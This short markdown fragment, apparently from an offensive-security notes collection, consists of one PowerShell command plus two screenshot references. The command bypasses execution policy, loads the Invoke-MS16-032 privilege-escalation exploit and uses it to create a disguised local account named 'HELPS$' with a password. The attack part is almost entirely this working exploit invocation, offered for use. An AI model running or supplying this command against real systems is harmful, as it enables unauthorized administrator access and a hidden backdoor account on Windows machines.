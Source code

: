 ```
powershell -nop -exec bypass -c "& {Import-Module 'c:\Invoke-MS16-032.ps1';Invoke-MS16-032 -Application cmd.exe -commandline '/c net user HELPS$ amin!@#45 /add'}"
```
***
![](../img/ms16%20032%20_1.jpg)  

***
![](../img/ms16%20032%20_2.jpg)  

